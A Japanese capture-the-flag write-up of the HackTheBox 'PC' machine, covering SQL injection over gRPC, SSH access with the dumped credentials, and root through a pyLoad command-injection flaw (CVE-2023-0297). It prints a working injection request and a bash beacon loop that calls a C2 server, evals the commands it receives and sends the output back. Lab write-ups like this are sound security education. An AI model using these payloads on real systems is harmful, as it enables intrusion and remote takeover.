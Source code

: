 # PC(Easy)
今回はHackTheBoxのPCマシーンを解いたので、その流れを解説します。<br>
<br>
<br>
## 情報収集
まずはポートスキャンを行い、アクセスできるサービスがないかを探します。<br>
![portscan](https://github.com/sota70/PC-Easy-Writeup/assets/46929379/01c3fb71-aa95-4030-a776-2752a469d81d)
そうすると、22番ポート(SSH)と50051番ポートが開いているのか分かります。<br>
50051番ポートはgRPCという、Proto RequestとProto Responseの２つのメッセージで通信を行う<br>
プロトコルのデフォルトポートです。<br>
<br>
<br>
### gRPCへアクセス
gRPCが怪しいので、gRPCUIというツール(<https://github.com/fullstorydev/grpcui>)を使って<br>
中身を見てみます。<br>
![gRPCUI](https://github.com/sota70/PC-Easy-Writeup/assets/46929379/7068923a-60b2-4b55-8b17-1b608df5576f)
そうすると、gRPCプロトコル経由でアカウントの登録、ログイン、アカウント情報取得ができることが分かります。<br>
ここでは、既にadminアカウントがadminというパスワードで登録されていました。<br>
sqlmapを使いアカウント登録、ログイン、アカウント情報取得のどれかでsql injectionできないか試してみます。<br>
![sqlmap_batch](https://github.com/sota70/PC-Easy-Writeup/assets/46929379/fd9b4de9-3ef0-4870-87d1-d40ac0724c32)
そうすると、アカウント情報取得だけsql injectionの脆弱性があることが分かりました。<br>
<br>
<br>
## 侵入
このアカウント情報取得ページからテーブルの内容をsql injectionを使って表示できそうなので<br>
実際にやってみます。<br>
![sqldump](https://github.com/sota70/PC-Easy-Writeup/assets/46929379/3d99dd12-37c3-4ea8-a10c-8179372cc841)
そうすると、sauというアカウント情報がパスワードとともに出てきました。このアカウントでSSH接続できそうなので、やってみます。<br>
sauのアカウントでSSH接続することができました。<br>
![ssh](https://github.com/sota70/PC-Easy-Writeup/assets/46929379/e99119dc-772a-480d-80bd-82cd255ae401)
ちなみに、ログインするとuser.txtというファイルがあり、その中に1つ目のフラグが入っていました。<br>
<br>
<br>
## 情報収集2
まず、suidがついた実行ファイルが無いか確認します。PATH変数を利用した権限昇格ができないか試すためです。<br>
ですが、利用できるファイルが見つからなかったので、次はローカルで動いてるサービスが無いか確認してみます。<br>
![ps](https://github.com/sota70/PC-Easy-Writeup/assets/46929379/5722c2bf-e0d8-484d-8999-7a2e17c10bfa)
8000番ポートはpyLoadのデフォルトポートなので、このサービスがrootで動いているか確かめてみます。<br>
![netstat](https://github.com/sota70/PC-Easy-Writeup/assets/46929379/58a16427-e087-4288-bdc1-27a853262f66kl)
netstatで確認したところ、rootで動いているみたいです。<br>
これは権限昇格に使えそうです。このサービス内で利用できそうな脆弱性を探してみると<br>
command injectionの脆弱性が見つかりました(<https://github.com/bAuh0lz/CVE-2023-0297_Pre-auth_RCE_in_pyLoad>)<br>
<br>
<br>
## 攻撃スクリプトの作成
pyLoadの脆弱性を利用した攻撃では、reverse-shellを使います。今回は２つのスクリプトを作ります。<br>
### /tmp/exploit.sh
```
curl -i -s -k -X $'POST' \
    --data-binary $'jk=pyimport%20os;os.system(\"bash%20/tmp/exploit.sh\");f=function%20f2(){};&package=xxx&crypted=AAAA&&passwords=aaaa' \
    $'http://127.0.0.1:8000/flash/addcrypted2'
```
<br>

### ~/exploit.sh
```
nohup bash -c 's=10.10.14.18:8080&&i=018583-c27fed-8677af&&hname=$(hostname)&&p=http://;curl -s "$p$s/018583/$hname/$USER" -H "Authorization: $i" -o /dev/null&&while :; do c=$(curl -s "$p$s/c27fed" -H "Authorization: $i")&&if [ "$c" != None ]; then r=$(eval "$c" 2>&1)&&echo $r;if [ $r == byee ]; then pkill -P $$; else curl -s $p$s/8677af -X POST -H "Authorization: $i" -d "$r";echo $$;fi; fi; sleep 0.8; done;' & disown
```
<br>
1つ目のスクリプトはpyLoadに/tmp/exploit.shを実行させるスクリプトです。<br>
２つ目のスクリプトは自分のPCで動かしているC2サーバーにアクセスさせるスクリプトです。<br>
今回はC2サーバーにVillain(<https://github.com/t3l3machus/Villain>)を使っています。<br>
<br>
<br>

## 侵入2
実際に作成したスクリプトを実行してみましょう。<br>
![establishing_session](https://github.com/sota70/PC-Easy-Writeup/assets/46929379/44e2d6b9-4b47-478b-a654-86b39c94fa4d)
そうすると無事セッションが確立できました。<br>
rootディレクトリに行ってみると２個目のフラグがあったので、これでPCは終わりです。
